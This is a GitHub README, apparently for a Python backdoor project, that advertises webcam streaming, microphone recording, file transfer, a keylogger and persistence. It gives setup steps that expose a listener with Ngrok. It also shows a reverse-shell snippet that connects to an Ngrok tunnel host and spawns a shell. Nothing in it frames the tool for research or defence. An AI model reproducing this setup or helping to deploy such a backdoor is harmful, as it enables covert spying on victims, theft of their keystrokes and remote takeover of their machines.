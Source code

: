 # Backdoor

Creating a complete Backdoor using Python..

Fonctionalities:

- Webcam streaming
- Microphone recording 
- Download and upload files
- Keylogger
- Persistance .. and much more.


## Installation

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install missing modules.

```bash
pip install -r requirements.txt
```

## Usage
use [Ngrok](https://ngrok.com/) to exposes local server behind NATs and firewalls to the public internet over secure tunnels.
```bash
ngrok tcp 9001
```
change the reverseShell.py [code](https://github.com/msamyy/roodkcab/blob/cb93eade83a6c29268dc9d7577dd68a089d3223c/rs/reverseShell.py#L355) so it contains the address and the port generated by Ngrok, for example:
```python
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# connection()
sock.connect(("8.tcp.ngrok.io", 17655))  # ngrok tcp 9001
print("connected")
shell()
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
